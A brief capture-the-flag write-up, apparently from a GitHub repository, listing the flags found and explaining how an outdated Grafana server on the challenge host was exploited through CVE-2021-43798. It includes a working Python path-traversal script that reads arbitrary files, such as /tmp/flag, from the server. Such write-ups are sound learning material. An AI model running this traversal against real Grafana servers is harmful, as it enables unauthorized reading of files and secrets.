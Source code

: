 # OST

# Flags

PClub{Easy LFI}

PClub{4lw4ys_cl05e_y0ur_fil3s}

PClub{idk_how_this_got_typed}

PClub{hah}


# Writeup

## Blog 2

On opening the Grafana link, we first notice the version and on checking the version is old and had a CVE documented(CVE-2021-43798).

Exploit DB had a ready-made script https://www.exploit-db.com/exploits/50581.

Using the hint of temporal location, and trying /tmp/flag, we get the first flag.

```
> /tmp/flag

PClub{Easy LFI}, now onto the next one! Next challenge - 13.235.21.137:4657 and 13.235.21.137:4729

```

Python code:
```py
import requests

s = requests.Session()
headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78."
}


def read(file):
    try:
        url = f"http://13.126.50.182:3000/public/plugins/alertlist/../../../../../../../../../../../../..{file}"
        req = requests.Request(method="GET", url=url, headers=headers)
        prep = req.prepare()
        prep.url = url
        r = s.send(prep, verify=False, timeout=3)

        if "Plugin file not found" in r.text:
            print("[-] File not found\n")
        else:
            if r.status_code == 200:
                print(r.text)
            else:
                print("[-] Something went wrong.")
                return
    except requests.exceptions.ConnectTimeout:
        print("[-] Request timed out. Please check your host settings.\n")
        return
    except Exception:
        pass

```